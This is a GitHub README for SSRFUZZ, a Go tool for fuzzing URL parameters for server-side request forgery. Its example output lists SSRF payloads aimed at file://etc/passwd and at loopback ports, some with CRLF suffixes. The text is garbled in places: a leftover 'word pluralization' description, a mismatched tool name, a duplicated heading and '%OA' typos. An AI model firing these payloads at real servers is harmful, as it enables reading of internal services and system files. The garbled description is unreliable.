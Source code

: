 # SSRFUZZ

Foobar is a Python library for dealing with word pluralization.

## Installation

Run the following command to intsall

```bash
go get -u github.com/ryandamour/ssrfuzz
```

## Usage

```go
===============================================================
SSRFUZZ v1.0.0
by Ryan D'Amour @ryandamour 
===============================================================A scanner for all your SSRF Fuzzing needs

Usage:
  crlfmap scan [flags]

Flags:
      --delay int              The time each threads waits between requests in milliseconds (default 100)
  -d, --domains string         Location of domains with parameters to scan
  -h, --help                   help for scan
  -x, --http-method string     HTTP Method - GET or POST (default "GET")
  -o, --output string          Location to save results
      --skip-crlf              Skip CRLF fuzzing
      --skip-network           Skip network fuzzing
      --skip-scheme            Skip scheme fuzzing
  -s, --slack-webhook string   Slack webhook to send findings to a channel
  -t, --threads int            Number of threads to run crlfmap on (default 50)
      --timeout int            The amount of time needed to close a connection that could be hung (default 10)
  -u, --user-agent string      User agent for requests (default "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36")
  -v, --verbose                verbose output

```
* Scanning http and scheme payloads w/ crlf:
```go
echo "http://192.168.1.10/test.php?u=" | go run main.go scan
...
 
[!] Scheme payload match:
* http://192.168.1.10/test.php?u=file://etc/passwd 200

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.1.0.0:80 200
* http://192.168.1.10/test.php?u=http://127.1.0.0:8080 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:443 500
* http://192.168.1.10test.php?u=http://127.1.0.0:22 500
* http://192.168.1.10/test.ph?u=http://127.1.0.0:25 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:445 500

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
```
* Scanning only http payloads w/ crlf:
```go
echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-scheme
...

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:443%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:443%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:25%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:25%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:22%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:22%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:445%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:445%23%OA 500
```
* Scanning only http payloads w/o crlf:
```go
* Scanning only http payloads w/ crlf:
```go
echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-scheme --skip-crlf
...

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.1.0.0:80 200
* http://192.168.1.10/test.php?u=http://127.1.0.0:8080 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:443 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:22 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:25 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:445 500
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)

